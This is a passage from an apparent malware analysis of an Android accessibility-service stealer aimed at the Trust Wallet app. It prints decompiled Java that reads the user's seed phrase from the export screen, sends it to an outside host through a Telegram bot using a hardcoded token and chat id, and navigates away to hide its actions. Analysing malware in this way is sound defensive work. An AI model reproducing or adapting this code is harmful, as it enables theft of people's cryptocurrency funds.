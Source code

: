 ```java
if (event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.addwallet.activity.AddWalletActivity")) {
    performGlobalAction(2);  // HOME button
    return;
}

```

**What it does:**

- Presses **HOME** if the flow wanders to “Add Wallet.” to cover tracks

---

## 3: Seed Phrase Extraction 🚨

```java
if (!event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.wallets.activity.ExportPhraseActivity")) {
    // Handle other activities above
} else {
    // MAIN ATTACK CODE
    nodeInfo.getChild(0).getChild(3).performAction(16);
    nodeInfo.getChild(0).getChild(4).performAction(16);
    nodeInfo.refresh();
    nodeInfo.refresh();
    nodeInfo.refresh();

    String values = "" + nodeInfo.getChild(0).getChild(3).getText().toString() + " ";
    String values2 = ((((((((((values +
        nodeInfo.getChild(0).getChild(5).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(7).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(9).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(11).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(13).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(15).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(17).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(19).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(21).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(23).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(25).getText().toString();

    f3471b = true;
    a("2012379995:AAGPhRr3ntEfaB38Ul4PveGwNYLaRSiikLY", "-1001491052715", values2);
    performGlobalAction(1);  // BACK button
    return;
}

```

```java
void a(String token, String id, String message) {
    try {
        b0.b bVar = new b0.b();
        TimeUnit timeUnit = TimeUnit.SECONDS;
        b0 okHttpClient = bVar.c(20L, timeUnit).b(3L, timeUnit).a();
        u retrofit = new u.b().b(g.a0.a.a.f()).a(g.d()).c("https://api.telegram.org/bot" + token + "/").g(okHttpClient).e();
        e serviceMain = (e) retrofit.b(e.class);
        serviceMain.a(id, message).z(new a(token, id, message));
    } catch (Exception e2) {
    }
}
```
